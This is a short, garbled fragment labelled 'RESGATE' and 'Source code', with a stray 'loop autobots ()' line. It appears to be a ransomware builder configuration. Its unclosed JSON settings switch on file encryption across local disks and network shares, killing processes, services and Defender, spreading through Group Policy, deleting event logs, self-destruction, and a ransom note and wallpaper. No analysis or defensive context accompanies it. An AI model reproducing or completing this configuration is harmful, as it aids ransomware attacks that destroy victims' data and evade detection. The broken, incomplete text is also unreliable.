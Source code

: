 # RESGATE

loop autobots ()


  "bot": {
    "uid": "00000000000000000000000000000000",
    "key": "00000000000000000000000000000000"
  },
"config": {
    "settings": {
      "encrypt_mode": "auto",
      "encrypt_filename": false,
      "impersonation": true,
      "skip_hidden_folders": false,
      "language_check": false,
      "local_disks": true,
      "network_shares": true,
      "kill_processes": true,
      "kill_services": true,
      "running_one": true,
      "print_note": true,
      "set_wallpaper": true,
      "set_icons": true,
      "send_report": false,
      "self_destruct": true,
      "kill_defender": true,
      "wipe_freespace": false,
      "psexec_netspread": false,
      "gpo_netspread": true,
      "gpo_ps_update": true,
      "shutdown_system": false,
      "delete_eventlogs": true,
      "delete_gpo_delay": 1
